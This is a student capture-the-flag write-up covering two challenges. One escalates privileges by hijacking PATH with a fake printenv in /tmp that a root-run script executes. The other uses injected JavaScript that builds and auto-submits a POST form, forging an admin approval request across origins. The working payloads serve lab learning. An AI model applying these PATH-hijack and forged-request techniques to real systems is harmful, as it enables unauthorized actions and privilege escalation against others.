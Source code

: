 ### British Punctuality

After analyzing the directories and files, we noticed some things.

Upon entry, there's a reader program, a main.c file which is the source code of this reader program and a shell script. <br>

This reader program attempts to read the /flags/flag.txt but, since we don't have permissions to read it, it can never execute and read the flag. <br>

The shell script checks for the existence of a /tmp/env file, changes the environment variables based on it, deletes the file and then executes a printenv shell program that prints all the environment variables to the console and then executes the reader program.

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058437178964836412/image.png">

With this in mind, we went ahead and checked the /tmp directory, in which we realized we had permissions to create files, so we devised a strategy. <br>

We created an env file that changes the PATH environment variable to point to the /tmp directory.

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058449240319348857/image.png">

This will make it so whenever we try to run any system built-in commands, the system will try to fetch the location of that command going down the directories in the PATH variable. <br>
Since the /tmp folder is the first in line, if there's a printenv executable there, the system will call that one, instead of the "real" one. 

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058445037995827350/image.png">

And because the script calling this new printenv command has root access and therefore can read the /flag.txt file, if we were to put a cat flag.txt command in the new printenv command, we should be able to see the flag(flag{08276c3eaa5aff543e02f1d5719aac94}
) in the last_logs file.<br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058449597451743312/image.png">


### Final Format

### Echo

### Apply For Flag II

This CTF is very similar to Week 10 Challenge 1, with a small yet annoying difference: the admin page and the justification page are hosted on the same website but on different ports, which counts as different origins. <br>

Firstly, we tried to do the same as we did on that challenge, sending a POST request using Ajax to the action that submits the approval for the flag.<br>

```html
<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                var sendurl="http://ctf-fsi.fe.up.pt:5005/request/64d2f32ef60ef1df5b6f58701f0d47fbe59c6584/approve";
                Ajax=new XMLHttpRequest();
                Ajax.open("POST", sendurl, true);
                Ajax.send();
        }
</script>
```

This did not work because it triggered a CORS error:

`Access to XMLHttpRequest at 'http://ctf-fsi.fe.up.pt:5005/request/64d2f32ef60ef1df5b6f58701f0d47fbe59c6584/approve' from origin 'http://ctf-fsi.fe.up.pt:5004' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.`

Now that we knew what we need to defeat, we started to look for ways to go around that. <br>

One way that we researched was the use of iframes to bypass SOP, but this turned out to be a dead end and a major headache. <br>

Until we finally arrived at a solution, which came to our mind because of the Laravel framework we're using on the LBAW course. <br>

Generally, if a form is submitted on a website, it won't trigger any SOP error because it's the own website submitting the request, and not someone/something external to it. <br>

With this in mind, we devised a script that would inject a form onto the DOM and then submit it automatically. <br>

```html
<script type="text/javascript">

    document.body.onload = function () {

        var form = document.createElement("form");
        form.method = "POST";
        form.action = "http://ctf-fsi.fe.up.pt:5005/request/b3131dce877a8b7198566429b90379958476bc9b/approve";
        form.name = "form";
        form.role = "form";

        document.body.appendChild(form);

        document.form.submit();

    }
</script>
```

The problem with this approach is that it will automatically redirect us to the action URL, which means we need to find a way to stop that. <br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058467818246508575/image.png">

After a couple tries trying to use javascript to stop the webpage from redirecting, which didn't work, we decided the best way to achieve the intended result was to just stop javascript execution in the browser with an extension and navigating to the URL that tells us if our request was approved. <br>

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058468658529177661/image.png">

This worked perfectly, as when we loaded the page it wouldn't redirect us anymore, because our script tag was being disabled, allowing us to retrieve the flag (flag{24e4abf36593c5f93b13d0f5449c1258}).

<img src="https://cdn.discordapp.com/attachments/1049764414255018045/1058468097662660718/image.png">

There's only one improvement we could make, which is to make it so the script works autonomously, retrieving the request id from the URL, so we don't have to change our code every time we wanted to exploit this website.

```html
<script type="text/javascript">

    document.body.onload = function () {

        var form = document.createElement("form");
        form.method = "POST";
        form.action = window.location.href.substring(0,27) + "5" + window.location.href.substring(28) + "/approve";
        form.name = "form";
        form.role = "form";

        document.body.appendChild(form);

        document.form.submit();

    }
</script>
```

Unfortunatelly, despite the action URL being built correctly, for some reason our request is never approved. <br>
Since we already have the flag, we didn't give it much second thought, but decided to document this either way.

### NumberStation3

